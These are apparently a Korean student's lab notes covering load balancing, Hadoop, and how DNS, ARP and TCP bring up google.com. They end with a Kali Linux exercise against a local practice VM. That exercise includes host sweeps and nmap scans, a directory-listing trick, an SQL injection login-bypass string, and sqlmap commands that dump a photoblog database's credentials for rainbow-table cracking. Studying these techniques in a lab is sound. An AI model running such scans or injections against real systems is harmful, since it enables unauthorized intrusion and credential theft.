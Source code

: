# DAY_5

사용자가 시스템에 요청해서 시스템을 사용하려고 하는데 요청하는 사용자가 많아지면 과부화 생김  
그래서 사용자와 시스템 사이에 L4를 만들어 서비스를 분산하거나 애플리케이션 영역에서 L.B 요청 분산  
L4, LB는 결합 허용이 아님!  
DNS : ~~~ 쿼리 => 마스터가 있고 대체할 수 있는 세컨더리 있음  
이것처럼 LB master와 LB slaver로!  

### 하둡
누군가 요청하면 데이터 노드 쪽에 데이터 저장하거나 분산된 데이터 처리하는 거 필요 -> **네임노드** : 세컨더리 둠, 이중화 되어있다!  
데이터 노드:  

### 시험인감!!? [웹 브라우저에서 구글 사이트 접속 과정]
####웹 브라우저에 google.com을 쳤을 때 페이지가 나오는 세부 흐름
DNS 스콜
TCP/IP step, Gate way

``` 
1. goolecom의 IP가 뭐지?  
 **(1-1) 메모리 내에 DNS Cache를 먼저 살핀다. :ipconfig/flushdns  
   (1-2) /etc/hosts 본다.**  
    > C:\Windows\System32\drivers\etc의 host 파일에 DNS 적어놓을 수 있음   
    > 그러면 DNS 서버를 참조하는게 아니라 hosts 파일을 참조해서 한다.   

  사용자가 입력한 구글 닷컴의 ip를 알아야 함  
  * DNS 서비스에게 google.com의 IP가 무엇이지?  
    => DNS 서버에게 Query를 해야한다.(168.126.63.1)  
      
  * 실제 통신은(low level 말하는 것) MAC 주소로 통신을 한다.  
    => DNS의 IP주소를 MAC주소로 변환해서 알아야 한다. //DNS : 도메인 -> ip  
      (ARP 프로토콜로 MAC 주소를 알아온다.)    //ARP: ip -> MAC  
```
 
      #### cmd
      > **arp -a**   
      > ip 주소에 대한 MAC 주소(물리적 주소) 나옴  
      그러나 DNS에 대한 ip 주소 없음  
      
      > ipconfig  
      > 서브넷 마스크는 무슨 의미?  
      >  - 뒷자리만 다르면 하나의 네트워크에 있다.
      
      기본적으로 통신은 IP로 진행되는데 실제 통신은 MAC주소로 진행된다.  
      IP를 MAC주소로 바꾸는게 arp다.  
      
      - 게이트를 통해 DNS 서버로 가야함!!!  
      - 서브넷 마스크나 게이트웨이 없으면 어떻게 되는지, MAC주소가 무슨 역할 하는지  

네트워크는 계층적으로 통신함(OSI 7 Layer, TCP/IP 4 Layer)  
![layer](https://user-images.githubusercontent.com/50771111/88609141-5cf2c880-d0be-11ea-8611-cdb2d97571a1.png)

   **subnet mask**     
    (1) 같은 네트워크 영역 => ARP 테이블의 MAC주소로 통신.  
    (2) 다른 네트워크 영역 => 게이트웨이(IP)로 데이터를 보낸다.  
        (게이트웨이의 IP 주소에 대한 MAC 주소로 데이터를 보낸다.)
   
 **====> DNS 쿼리가 이루어졌다.(172.217.161.174)**


```
2. 172.217.161.174 웹서버(구글 웹서버)에 연결을 해야 한다. (TCP)
   * 웹서버는 TCP기반의 HTTP 프로토콜을 이용하고,  
     기본 포트 80 이다. //포트: 프로그램 구분 번호  
     - TCP는 연결 지향 통신(연결 된 것 처럼 쓰겠다.)   
   2-1) TCP 연결을 하기 위해 TCP 3-way handshaking.  

3. (연결이 된 후에) HTTP 요청 (GET...)  

4. HTTP Response(응답) 받고 화면에 데이터를 표시.  

5. 연결을 해제.  
```

#### 준비
> vm에 Web 깔기, kali linux 깔기

#### cmd
> ifconfig // ip 확인  

ping: icmp프로토콜, 네트워크 상태를 모니터링 하고 확인하기 위해 사용하는 프로토콜
> ping www.google.com
> ping www.naver.com
특정 서버가 살아있는지 알기 위해 ping 날렸는데 응답 있으면 살아 있는 것!  
그러나 응답이 없다고해서 죽었다고 할 수는 X, 그냥 서버가 응답 안한거 일 수도 있어서!!
> traceroute www.naver.com
> 하려고 노력은 함!!

> ping 쓰면 살았는지 죽었는지 알 수 있음!

> fping : kali linux가 사용하는 명령어  
> fping -g 10.0.2.0/24  
> 몇 개 alive 한게 있음. 10.0.2.6는 나!  
> 1은 게이트 웨이이고 2,3,3 중에 

#### 포트 스캐닝
> nmap -sT -v 10.0.2.2-4 (alive한 것들 어떤 포트 사용하고 있는지 확인)  

> telnet 10.0.2.4 80(포트번호)  

> kali -> application -> 파이어 폭스 -> 주소창에 10.0.2.4 입력  
>   ==> My Awesome Photoblog 화면 출력!!  

#### 디렉토리 리스팅
> 위에서 사진에서 마우스 우클릭 -> copy Image Location -> 주소창에 입력 -> 뒤에 이미지명 지우기  
>   => Index 파일 리스팅 됨

### [SQL Injection]
```
ID와 PW를 입력하면
id : ' OR '1' = '1--
select count(*) from user_id whre id=’' OR '1' = '1’ -- and Pw=’hi’
```
- kali shell  
> sqlmap -u "http://10.0.2.9/cat.php?id=1"  //sql injection에 취약한 URL 파라미터로 던져봄

```
sqlmap -u "http://10.0.2.9/cat.php?id=1"  

sqlmap -u "http://10.0.2.9/cat.php?id=1" --current-db  
    > photoblog 확인  
    
```

포토DB의 테이블 떠보기
> sqlmap -u "http://10.0.2.9/cat.php?id=1" -D photoblog --dump  
>   조금 위로 올려보면 id/pw 나와있는거 볼 수 있음

hash 함수: 고정된 길이. 다른 입력값 -> 다른 출력값, 출력값으로 입력값 예측 불가  
근데 어떻게 풀었지!?!  
   - 중국에서 해쉬값 풀어놓은 테이블 O -> 레인보우 테이블 
   
**id/pw로 로그인 가능한거 확인함!!**
